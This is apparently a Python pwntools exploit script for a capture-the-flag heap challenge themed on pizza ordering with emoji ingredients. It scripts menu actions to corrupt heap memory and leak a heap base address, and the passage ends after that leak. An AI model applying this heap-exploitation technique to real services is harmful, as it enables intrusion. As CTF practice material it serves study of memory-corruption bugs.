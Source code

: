 ```python
def new(name):
    r.sendlineafter('Choice:', 'N')
    r.sendlineafter('name?', name)

def login(name):
    r.sendlineafter('Choice:', 'L')
    r.sendlineafter('name?', name)

def order(pn, ign, igs):
    r.sendlineafter('Choice:', 'O')
    r.sendlineafter('pizzas?', str(pn))
    for i in range(pn):
        r.sendlineafter('ingredients?', str(ign[i]))
        for j in range(ign[i]):
            r.sendlineafter('ingridient', flat(igs[i][j]))

def cook(decl):
    r.sendlineafter('Choice:', 'C')
    r.sendlineafter('explain', decl)

def admire():
    r.sendlineafter('Choice:', 'A')

def leave():
    r.sendlineafter('Choice:', 'L')

def please(payload):
    r.sendlineafter('Choice:', 'P')
    r.sendlineafter('yourself:', payload)

pineapple = 0x8d8d9ff0
tomato = 0x858d9ff0
chicken = 0x94909ff0
banana = 0x8c8d9ff0
poo = 0xa9929ff0

new('A')
order(1, [2], [['\xf0\x90\xf0\x9f', '\x8d\x8d']])
leave()

new('B'*0x30)
order(1, [1], [[tomato]])
leave()

login('B'*0x30)
cook('a'*290)
leave()

new('C'*0x50)
n = 4
order(1, [n], [['a'*20]*n])
leave()

login('A')
cook('a')
please('C'*32)

login('C'*0x50)
cook('a')
x = r.recvuntil('USER MENU')
xx = re.findall('BadPizza: (.*)aaaaaaaaaaaaaaaaaaaaa', x)[0]
heap = u64(xx.ljust(8, '\x00'))-0x11e30
print 'heap:', hex(heap)
```
